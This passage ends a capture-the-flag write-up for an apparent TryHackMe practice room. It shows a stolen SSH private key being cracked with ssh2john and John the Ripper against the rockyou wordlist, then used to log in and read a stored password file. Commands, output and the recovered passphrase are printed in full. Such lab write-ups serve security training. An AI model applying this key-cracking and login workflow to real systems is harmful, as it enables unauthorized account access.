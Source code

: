 ```
Viewed the key, copied the text and pasting it into my own file kayrsa.txt to login via ssh key, but failed due to the key needing a passphrase:
```
Enter passphrase for key 'kayrsa.txt': 
kay@10.10.52.25's password: 
Permission denied, please try again.
```
No worries, from this we can use JohnTheRipper a tool used to crack the passphrase: 
```
kali@kali)-[~]
└─$ /usr/share/john/ssh2john.py kayrsa.txt > crack
```
Run john on the file to output to another file called crack or whatever you want. Then use a wordlist like rockyou to crack it open!
```
kali@kali: john crack --wordlist=/usr/share/wordlists/rockyou.txt
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kayrsa.txt)     
1g 0:00:00:00 DONE (2024-04-16 18:15) 8.333g/s 689466p/s 689466c/s 689466C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
We’ve found the passphrase (beeswax)! Now we can finally log on to kay.

From here  we can obtain the final password: 
```
ssh -i kayrsa.txt kay@10.10.52.25                  
Enter passphrase for key 'kayrsa.txt': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
10. I’ve obtained the final password: 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$

Room challenge complete.


[1]: https://github.com/d0nCyR/CTFs/blob/main/THM/BasicPenTest/pics/nmap.png
[2]: https://github.com/d0nCyR/CTFs/blob/main/THM/BasicPenTest/pics/development.png

